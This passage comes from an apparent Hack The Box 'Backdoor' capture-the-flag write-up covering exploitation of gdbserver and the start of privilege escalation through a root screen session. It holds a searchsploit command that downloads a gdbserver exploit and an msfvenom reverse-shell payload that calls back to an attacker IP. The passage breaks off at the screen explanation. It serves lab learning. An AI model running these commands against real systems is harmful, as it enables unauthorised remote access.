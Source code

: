 ``` python
- **GDB**: GNU Debugger, used to inspect and control programs during execution.
- **gdbserver**: Runs on the target machine to allow remote debugging by GDB running on another machine.

---

### 3.4 Exploiting `gdbserver`

Search for exploits:

![[sploit_gdbserver.png]]

Download exploit:

``` bash
searchsploit -m linux/remote/50539.py
```

Prepare reverse shell payload:

``` bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 PrependFork=true -o rev.bin
```

Run exploit and connect, obtaining a shell as `user`.

![[GitHub Documentation/EASY/HTB_Backdoor_Writeup/screenshots/user_flag.png]]

✅ **User flag obtained**

---

## 4. Privilege Escalation

### 4.1 Process Analysis

List running processes:

``` powershell
ps -faux | grep screen
```

![[screen_executing.png]]

Found:

``` bash
find /var/run/screen/S-root -empty -exec screen -dmS root ;
```

This command checks if `/var/run/screen/S-root` is empty and, if so, starts a detached root-owned `screen` session named `root`.

---

### 4.2 How `screen` Works
